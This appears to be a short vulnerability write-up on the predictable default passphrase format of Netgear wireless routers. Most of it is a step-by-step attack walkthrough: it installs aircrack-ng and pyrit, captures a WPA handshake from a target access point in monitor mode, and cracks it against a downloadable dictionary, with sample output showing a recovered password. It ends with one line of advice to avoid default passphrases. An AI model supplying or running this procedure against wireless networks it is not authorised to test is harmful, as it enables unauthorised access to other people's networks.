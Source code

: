 Netgear Wireless Router Default Passphrase Vulnerability

**OS:** Debian 8

A vulnerability exists in the default passphrase for Netgear Wireless Routers. The default passphrase consists of two words, followed by a three digit number (<http://support1.gearguy.com/useruploads/images/19915v3.PNG>):<br>
**word1word2xxx**

To exploit this vulnerability you will need “aircrack-ng”, “pyrit” and the wordlist containing all possible passphrases. Initially, i was going to generate the dictionary using /usr/share/dict/cracklib-small and “crunch”, but the Netgear dictionary is already available for download from ScriptKitty (<http://www.scriptkitty.ca/index.php/wordlists/>).
<br>
<br>
##Installation of Required Software
Manual step-by-step instructions @ blackMORE Ops (<http://www.blackmoreops.com/2014/03/13/install-nvidia-driver-kernel-module-cuda-and-pyrit-kali-linux/>)
<code>
<div style="background-color: black; color: white; padding: 20px;">
<font color="silver">user@debian8:~$</font> <b>sudo apt-get install aircrack-ng</b><br>
<font color="silver">user@debian8:~$</font> <b>sudo apt-get install pyrit</b>
</div>
</code>
<br>
<br>
##Step 1 – Capturing the Handshake
Plug in your Alfa AWUS036H and capture the 4-way handshake.<br>
Tutorial @ SecurityTube - <http://www.securitytube.net/groups?operation=view&groupId=9>
<code>
<div style="background-color: black; color: white; padding: 20px;">
<font color="silver">user@debian8:~$</font> <b>airmon-ng start wlan0</b><br>
<font color="silver">user@debian8:~$</font> <b>airodump-ng mon0</b><br>
<font color="silver">user@debian8:~$</font> <b>airodump-ng -c 1 -w netgear.cap --bssid 00:11:22:33:44:55 mon0</b><br>
</div>
</code>
<br>
<br>
##Step 2 – Cracking the Capture
Confirm you have useable handshakes, then clean up the capture file and crack the passphrase.<br>
<code>
<div style="background-color: black; color: white; padding: 20px;">
<font color="silver">user@debian8:~$</font> <b>pyrit -r netgear.cap analyze</b><br>
<font color="silver">user@debian8:~$</font> <b>pyrit -r netgear.cap -o stripped-netgear.cap strip</b><br>
<font color="silver">user@debian8:~$</font> <b>pyrit -r stripped-netgear.cap -i adjective_noun_3d.txt -b 00:11:22:33:44:55 attack_passthrough</b><br>
<font color="silver">...</font><br>
<font color="silver">.Parsing file 'stripped-netgear.cap' (1/1)...</font><br>
<font color="silver">.Parsed 10 packets (10 802.11-packets), got 1 AP(s)</font><br>
<font color="silver">.Tried 12235614 PMKs so far; 25683 PMKs per second.</font><br>
<font color="silver">.The password is</font> <b>'magicalsquash835'</b><br>
</div>
</code>
<br>
<br>
##Solution
Never use the default passphrase provided with your router and always use complex passwords that do not follow predictable patterns.

Tags: wifi
